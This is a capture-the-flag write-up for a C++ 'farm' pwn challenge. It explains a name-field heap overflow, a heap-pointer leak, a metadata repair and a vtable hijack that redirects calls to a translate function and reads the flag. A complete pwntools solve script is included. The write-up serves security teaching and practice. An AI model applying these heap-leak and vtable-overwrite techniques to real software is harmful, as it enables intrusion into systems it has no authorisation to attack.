# Object Oriented Pwning
## Pwn


The program provides an interface for managing a 'farm' (an array of Animal objects). Some relevant snippets of code are below.

```c++
int menu() {
    unsigned int choice;
    printf("1) List Animals\n2) Act on Animal\n3) Buy New Animal\n4) Buy translator (1000c)\n5) Sell The Farm\n> ");
    std::cin >> choice;
    return choice;
}

class Animal {
public:
    virtual void Age();
    virtual void PrintInfo();
    virtual int Sell() = 0;
    void Translate();
    void SetName();
    virtual ~Animal() = default;
    char type[16];
    bool dead = false;
    uint8_t max_age;
    uint8_t hunger = 0;
protected:
    uint8_t age = 1;
    char name[16];
};

void Animal::SetName() {
    printf("What will you name your new animal? ");
    flush();
    unsigned char c;
    int read = 0;
    while ((c = getchar()) != '\n' && read < 64) {
        this->name[read] = c;
        read++;
    }
}
```

There is an obvious buffer overflow in the `SetName` method - animals have a 16 byte name field, but it reads 64 characters (or until a newline) into the buffer. Using this, we can perform a heap overflow (`Animal`s are allocated on the heap). Rather than targeting the heap metadata itself and performing a classic heap attack (which is made more complex due to how `new` and `delete` modify data in heap chunks), I will overwrite a vtable pointer.

![Vtable](https://i.stack.imgur.com/zrKyI.gif)

By overwriting the vtable pointer of any of the animals, we can modify the code that is executed when methods are performed on it. The pointer is located at the very start of the object in memory, meaning it can be reached easily by an overflow. Normally, with the ability to redirect function calls, and with `system` in the PLT, we could simply call that. However, vtable methods are called using the `__thiscall` convention; a pointer to `this` is placed in RDI, and all the other register arguments are shifted up; which results in a vtable pointer rather than a string being in RDI.

Instead, my target is the `Animal::Translate` function. Normally, the translator costs 1000 coins, and unlocking it just calls `cowsay` on either `cow.txt` or `pig.txt`, depending on the `type` char array property of the animal. As this property is located directly after the vtable, we can continue our overflow to overwrite the type to `flag`.



### Exploit Plan

Throughout the exploit, many of the functions we will use (buying animals, renaming) requires money. Because of this, we will have to sell animals occasionally, as well as allowing them to age so they sell for enough money to continue. The lines relating to this will only be included in the final exploit.

1. Allocate two adjacent `Animal`s on the heap

   ```python
   buy_animal(1, "EvilPig")
   buy_animal(1, "DummyPig")
   ```

2. Free the one at a higher address, in order to place heap pointers in the chunk

   ```python
   sell(1)
   ```

3. Replace all null bytes between the remaining `Animal`'s name and the heap pointer.

```python
rename(0, "A" * 44)
```

4. List the animals to leak the heap pointer. The `Animal::Info` method uses `printf` to print the name field - since we have removed all null bytes, it will keep printing up until the heap pointer. Local testing reveals that the chunk is just above the heap base, so we can null out the last byte of the pointer to gain the base.

   ```python
   leak = list_animals()
   heap_base = u64(leak[0x2f:0x2f+4].ljust(8, b'\x00')) & ~0xff
   log.success(f"Heap Base: {hex(heap_base)}")
   sell(0)
   ```

5. Overwriting the bytes between the name field and the next chunk has caused the heap size metadata to become corrupt. To prevent an error on the next allocation, I will replace the metadata with some fake, but sane sizes.

   ```python
   buy_animal(1, b"DDDD" + p64(64)*7)
   sell(0)
   ```

6. We create an animal whose name field is a fake vtable, containing pointers to the translate function.

```python
buy_animal(1, p64(e.sym['_ZN6Animal9TranslateEv']) * 2)
```

7. Finally, we create an animal which will be allocated *before* the previous one on the heap, and overflow. We are able to overwrite the vtable to our other animal's name field (given that the offset from the heap base is deterministic), and overwrite the type field to `flag`.

```python
buy_animal(1, b"L" + b"O"*0x21 + b"NG" + p64(heap_base + FAKE_TABLE) + b"flag\x00")
print(r.recvuntil('}', timeout=0.5).decode())
```

```python
 __________
< Feed me! >
 ----------
  \
    \
rarctf{C0w_s4y_m00_p1g_s4y_01nk_fl4g_s4y-251e363a}

```

### Solve Script

```python
#!/usr/bin/python3.8

from pwn import *

e = ELF("src/oop")
# r = process(e.path)
r = remote("localhost", 1337)
context.arch = "amd64"

FAKE_TABLE = 0x1d37f1c - 0x1d25000

FAKE_TABLE -= 0x40
# Xinetd adjusts heap offsets slightly

def list_animals():
    r.recvuntil('> ')
    r.sendline('1')
    return r.recvuntil('!')


def animal_action(index):
    r.recvuntil('> ')
    r.sendline('2')

    r.recvuntil('? ')
    r.sendline(str(index))


def buy_animal(type, name):
    r.recvuntil('> ')
    r.sendline('3')

    r.recvuntil('> ')
    r.sendline(str(type))

    r.recvuntil('? ')
    r.sendline(name)


def buy_translator():
    r.recvuntil('> ')
    r.sendline('4')


def sell(index):
    animal_action(index)
    r.recvuntil('> ')
    r.sendline(str(1))


def feed(index):
    animal_action(index)
    r.recvuntil('> ')
    r.sendline(str(2))


def rename(index, name):
    animal_action(index)
    r.recvuntil('> ')
    r.sendline(str(3))

    r.recvuntil('? ')
    r.sendline(name)


def translate(index):
    animal_action(index)
    r.recvuntil

# We will first create two animals, and free the second.
# By removing the null bytes following the name of the
# first, we can puts() all the way up to the heap pointer,
# allowing is to obtain heap base

log.info("Creating evil pig")
buy_animal(1, "EvilPig")
# Place a heap pointer just after the first animal
log.info("Creating pig for slaughter...")
buy_animal(1, "DummyPig")
# Build up money...
list_animals()
sell(1)
# Replace all null bytes with 'A'
log.info("Enlarging evil pig...")
rename(0, "A" * 44)

# Printing the name will now include the heap pointer
# from DummyPig
leak = list_animals()
heap_base = u64(leak[0x2f:0x2f+4].ljust(8, b'\x00')) & ~0xff
log.success(f"Heap Base: {hex(heap_base)}")
sell(0)
# Put some fake metadata back in so
# we don't trigger heap check
log.info("Creating false pig...")
buy_animal(1, b"DDDD" + p64(64)*7)
log.info("Creating money pig...")
buy_animal(1, "Money2")
# Earn some more money so we have room for what's next
sell(0)
sell(1)

# We will now create two animals adjacent on the heap.
# The name field of the later one should contain
# pointers to Animal::Translate. The earlier one will have
# its name overflown into the vtable pointer of the second


log.info("Creating table pig...")
buy_animal(1, p64(e.sym['_ZN6Animal9TranslateEv']) * 2)
log.info("Creating long pig...")
buy_animal(1, b"L" + b"O"*0x21 + b"NG" + p64(heap_base + FAKE_TABLE) + b"flag\x00")
# context.log_level = "debug"
print(r.recvuntil('}', timeout=1).decode())

```



